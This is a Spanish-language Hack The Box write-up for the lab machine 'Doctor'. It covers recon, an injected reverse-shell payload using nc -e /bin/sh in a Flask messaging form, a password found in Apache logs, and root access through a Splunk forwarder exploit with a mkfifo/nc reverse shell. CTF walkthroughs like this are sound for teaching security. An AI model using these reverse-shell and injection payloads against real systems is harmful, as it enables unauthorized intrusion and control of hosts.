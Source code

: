 ```yaml
---
title: Doctor HTB
author: OxDeed
date: 2020-11-10 15:29:00 -0300
tags: [splunk,ssti,easy,hackthebox]
math: true
image: /htb/doctor/doctor.png
---
```


## Resumen

Empezamos con Doctor analizando el puerto `80 http` donde nos encontraremos con un posible nombre de dominio `doctors.htb`. 

Una vez agregado al file `/etc/hosts/` La pagina nos mostrara un sistema de posts-mensajeria el cual es vulnerable a ataques de tipo server-side-template-injection `(SSTI)`. Con esto seremos capaces de obtener la primera reverse shell. 

Aún debemos escalar de usuario, y solo bastara con ejecutar un `linepeash.sh` y encontraremos el pass de shaun en los logs de apache.

Como ultimo paso 
nos quedaria la escalacion de privilegios hacia root, donde nos aprovecharemos de la vulnerabilidad del `splunkforwarder` que esta corriendo en el `puerto 8089` con el exploit [**SplunkWhisperer2**](https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2) para finalmente obtener el `root.txt`. 

## Pwned
<link rel="stylesheet" type="text/css" href="/assets/css/asciinema-player.css"/>
<asciinema-player src="/htb/doctor/2.cast" cols="107" rows="24"></asciinema-player>
<script type="text/javascript" src="/assets/js/asciinema-player.js"></script>

---

## Reconocimiento
```console
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-09 18:06 EST
Nmap scan report for doctors.htb (10.10.10.209)
Host is up (0.23s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
| http-server-header: 
|   Apache/2.4.41 (Ubuntu)
|_  Werkzeug/1.0.1 Python/3.8.2
| http-title: Doctor Secure Messaging - Login
|_Requested resource was http://doctors.htb/login?next=%2F
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.53 seconds
  ```
---
Como podemos ver hay un correo con un posible nombre de dominio `doctors.htb` 

![Desktop View](https://i.ibb.co/PgbzhFX/1.png)
---
## Nombre de Dominio
Lo agregamos en nuestro archivo `hosts` para poder acceder.
```console
nano /etc/hosts
  ```
```console
127.0.0.1       localhost
127.0.1.1       kali
10.10.10.209    doctors.htb
  ```
---
## SSTI

Una vez en doctors.htb nos encontramos con un sistema de posts/mensajeria donde tendremos que `registrarnos` y `logearnos`.
![Desktop View](https://i.ibb.co/qrK75gr/4.png)
![Desktop View](https://i.ibb.co/JrMHpL0/6.png)
Creamos un nuevo mensaje `New Message`
![Desktop View](https://i.ibb.co/d4VnQ1c/7.png)

---

La web esta usando `flask` la cual puede ser vulnerable a server-side-template-injection [**SSTI Payloads**](https://medium.com/server-side-template-injection/server-side-template-injection-faf88d0c7f34)

![Desktop View](https://i.ibb.co/nr8nTH6/12.png)
Capturamos el request con Burp Suite e Inyectamos con el siguiente payload: `title=curl+http%3A%2F%2Fip%2F%24%28nc.traditional%24IFS%252710.10.15.31%2527%24IFS%25274949%2527%24IFS-e%24IFS%2Fbin%2Fsh%29&content=curl http://ip/$(nc.traditional$IFS%2710.10.14.230%27$IFS%274949%27$IFS-e$IFS/bin/sh)dbody&submit=Post`

Una vez dentro, podemos usar nuestra llave pública para logearnos con `ssh`.
```console
web@doctor:~/.ssh$ ls
ls
authorized_keys
``` 
---
<asciinema-player src="/htb/doctor/1.cast" cols="107" rows="24"></asciinema-player>
---
## Privesc Shaun

Subimos el linpeash para enumerar
```console
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.209 - - [09/Nov/2020 18:48:11] "GET /linpeash.sh HTTP/1.1" 200 -
``` 
---
```console
web@doctor:~$ wget 10.10.15.31/linpeash.sh

--2020-11-10 00:48:10--  http://10.10.15.31/linpeash.sh
Connecting to 10.10.15.31:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 294784 (288K) [text/x-sh]
Saving to: ‘linpeash.sh’

linpeash.sh 100%[==========================================================================================>] 287,88K   208KB/s    in 1,4s    

2020-11-10 00:48:12 (208 KB/s) - ‘linpeash.sh’ saved [294784/294784]
``` 

```console
web@doctor:~$ chmod +x linpeash.sh 
```

En los logs del apache nos encontramos con el password del usuario shaun ` Guitar123` . 
```console
/var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
```
![Desktop View](https://i.ibb.co/5sQrcvC/11.png)

```console
web@doctor:~$ su shaun
Password: Guitar123
```
```console
shaun@doctor:~$ cat user.txt 
5eb4d98c4564ab31f0a9e00c8899d522
```
---

## Privesc Root

Luego de enumerar un poco podemos darnos cuenta que se esta ejecutando el `splunkforwarder` en este caso, si esta mal configurado podemos escalar privilegios bajo el usuario el cual esta corriendo el forwarder. [**Exploit Splunk Forwarder Explicación**](https://medium.com/@airman604/splunk-universal-forwarder-hijacking-5899c3e0e6b2)
![Desktop View](https://i.ibb.co/RQM5WtT/10.png)

```console
shaun@doctor:/opt$ ls
splunkforwarder
```
```console
tcp        0      0 0.0.0.0:8089            0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
```

### Exploiting Splunk Forwarder

Ahora que tenemos información de como podemos explotar el splunk forwarder, nos queda descargarnos la herramienta. [**SplunkWhisperer2**](https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2)

Abrimos 2 Shells en la primera: 
```console
kali@kali: python PySplunkWhisperer2_remote.py --lhost 10.10.15.31 --host 10.10.10.209 --username shaun --password Guitar123 --payload '/bin/bash -c "rm /tmp/deed;mkfifo /tmp/deed;cat /tmp/deed|/bin/sh -i 2>&1|nc 10.10.15.31 3748 >/tmp/deed"'
```
En la Segunda nos ponemos a la escucha:
```console
nc -lvnp 3748
listening on [any] 3748 ...
connect to [10.10.15.31] from (UNKNOWN) [10.10.10.209] 54452
/bin/sh: 0: can't access tty; job control turned off
```
<asciinema-player src="/htb/doctor/2.cast" cols="107" rows="24"></asciinema-player>
---
![Desktop View](https://media2.giphy.com/media/aHnfrW2KBuJTZa62v0/giphy.gif)

---

## Recursos 

| Topics                       | 
|:-----------------------------|
| [**SSTI Payloads**](https://medium.com/server-side-template-injection/server-side-template-injection-faf88d0c7f34) | 
|[**Exploit Splunk Forwarder**](https://medium.com/@airman604/splunk-universal-forwarder-hijacking-5899c3e0e6b2)     |

---




